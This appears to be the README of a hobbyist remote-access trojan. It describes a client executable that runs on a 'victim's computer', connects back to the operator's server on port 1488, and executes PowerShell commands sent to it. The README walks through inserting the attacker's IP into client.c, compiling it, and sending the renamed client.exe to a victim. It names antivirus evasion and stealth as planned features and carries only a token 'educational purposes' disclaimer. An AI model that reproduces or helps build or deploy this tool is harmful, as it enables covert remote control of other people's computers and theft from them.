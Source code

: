# Powershell Remote Access (PRA)
PRA is a program (or Trojan virus) that allows access to the victim's Powershell. The program is in early access as its development has only recently begun. You can encounter a large number of bugs and nuances when using it, please write about it. Also, please use this program for educational purposes, do not use it to harm anyone.

## How does it work
We have 2 executable files. The first file is the client, and the second is the server. The client file must be located and run on the victim's computer. The server file must be located and run on the control computer. The client file will constantly try to connect to the server and when the connection is successfully established, the server will be able to send commands to the client, which it will execute through the victim's Powershell and send the result back to the server.

## How to use
The first and most important thing you need to do for the program to work is to forward port 1488 (the program runs on it). Next, open the client.c file and enter your IP address in quotes in the line below:

```
sai.sin_addr.S_un.S_addr = inet_addr("your ip here or "127.0.0.1" if you are testing the program on a local computer");
```

After all the above, all you have to do is compile the client.c file. I use GCC for compilation and if you do the same, just run run.bat in the client folder. That's it! You can send your victim client.exe (you can rename it)

## Notes
Because this is a very early version there are a lot of shortcomings. Below are some of them.

- Unicode. In all the tests I've done, commands like "dir" output Unicode normally, but if we enter a command to output the contents of a file, for example "Get-Content", then Unicode may or may not be output normally. You have to experiment with the -Encoding parameter.
- Catching errors. Let's say you wrote the command incorrectly and the client will return an error but will not send it to the server, and it turns out that the manager will not see it.
- Detection by Antivirus. The application is very easily recognized by antivirus, so if the victim's computer has an antivirus, it will easily delete PRA.
- The program does not hide in the system in any way. This is what I am primarily doing now so that this program can somehow be called a virus.


Everything written above will be corrected in future versions of PRA. [If you want to support the author and speed up the development process](https://www.donationalerts.com/r/potichek).